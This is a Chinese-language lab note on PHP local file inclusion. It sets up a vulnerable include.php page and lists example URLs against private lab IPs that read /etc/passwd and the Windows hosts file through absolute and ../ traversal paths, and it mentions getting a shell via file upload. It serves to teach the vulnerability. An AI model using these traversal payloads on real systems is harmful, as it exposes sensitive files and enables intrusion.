 ![](./../../img/文件包含/2022-05-28-10-23-38.png)
![](./../../img/文件包含/2022-05-28-10-24-43.png)

**10.52(Windows)创建文件包含页面include.php**

![](./../../img/文件包含/2022-05-28-10-27-09.png)
![](./../../img/文件包含/2022-05-28-09-54-11.png)

## 本地文件包含

**利用**

- 读取系统中其他敏感文件的内容

<p>  


- 配合文件上传漏洞getshell

**前提条件**

- php配置文件php.ini中参数allow_url_fopen = On (默认配置就是On的状态)

**文件读取**

- Linux绝对路径读取文件

<p>  


-  http://192.168.10.77/include.php?file=/etc/passwd
   ![](./../../img/文件包含/2022-05-28-10-41-53.png)

-  Linux相对路径读取文件

<p>  


-  http://192.168.10.77/include.php?file=../../../../../../../../../../etc/passwd
   ![](./../../img/文件包含/2022-05-28-10-43-04.png)

- Windows绝对路径读取文件

<p>  


-  http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\hosts
   ![](./../../img/文件包含/2022-05-28-10-54-46.png)

-  Windows相对路径读取文件，Windows路径从盘符开始，无法通过相对路径切换盘符，这里以当前路径.\演示

<p>  


-   http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\.\.\.\.\.\.\hosts

    ![](./../../img/文件包含/2022-05-28-11-04-15.png)
